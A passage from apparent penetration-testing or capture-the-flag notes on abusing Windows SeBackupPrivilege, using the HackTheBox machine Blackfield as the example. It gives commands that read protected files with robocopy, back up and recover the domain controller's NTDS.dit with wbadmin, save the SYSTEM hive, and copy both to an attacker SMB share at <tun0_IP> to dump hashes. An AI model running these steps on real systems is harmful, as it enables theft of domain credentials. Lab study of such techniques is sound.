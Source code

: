       How-To:

      ```python
      # How to enumerate for this:

      whoami /priv
      SeBackupPrivilege Enabled
      SeRestorePrivilege Enabled

      robocopy /b c:\\users\\administrator\\desktop\\ c:\\

      gci c:\\
      ```

      * In other words, **if you EVER SEE SeBackupPrivilege, you AUTOMATICALLY have access to root.txt as soon as you run this command!**

### NTDS.dit and System.hive

* Once an attacker has access to these files, an attacker can dump hashes from the DC using DCSync.
  * HTB Example: _**Blackfield**_
  *   Initiate Backup

      ```
      echo "Y" | wbadmin start backup -backuptarget:\\\\<tun0_IP>\\smb -include:c:\\windows\\ntds

      The backup operation successfully completed.
      ```
  *   Obtain wbadmin version:

      ```
      wbadmin get versions
      wbadmin x.x - Backup command-line tool

      # Pay attention to the version of wbadmin and the second date of version identifier as you will need this for the next command.
      ```
  *   Obtain NTDS.dit:

      ```
      echo "Y" | wbadmin start recovery -version:07/16/2022-07:43 -itemtype:file -items:c:\\windows\\ntds\\ntds.dit -recoverytarget:c:\\ -notrestoreacl

      Do you want to continue?
      [Y] Yes [N] No Y 
      ```
  *   Export system.hive and transfer to our attacker machine:

      ```
      reg save HKLM\\SYSTEM c:\\system.hive

      cp ntds.dit \\\\<tun0_IP>\\smb\\NTDS.dit
